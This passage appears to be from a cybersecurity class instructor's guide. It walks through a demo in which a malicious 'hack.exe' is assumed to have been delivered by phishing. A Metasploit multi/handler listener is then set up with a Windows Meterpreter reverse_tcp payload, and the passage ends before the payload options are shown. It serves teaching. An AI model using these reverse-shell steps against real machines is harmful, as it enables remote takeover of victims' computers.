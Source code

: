    - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - Remind students that a major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`

    - Select an exploit module:  

      - Run `use exploit/multi/handler` 

         - This module is a TCP handler popular among security practitioners.

       - Remind students that the exploit module executes a sequence of commands to target a specific vulnerability.

   - Next, indicate that we'll be using the following Windows Meterpreter payload: 
    
     - Run `set payload windows/meterpreter/reverse_tcp` 

     - This payload will open the Meterpreter console (`/meterpreter`) and communicate with the remote machine (`/reverse_tcp`).
   
     ![MSF 2](Images/MSF_2.png)

  - Display the payload's options settings: 
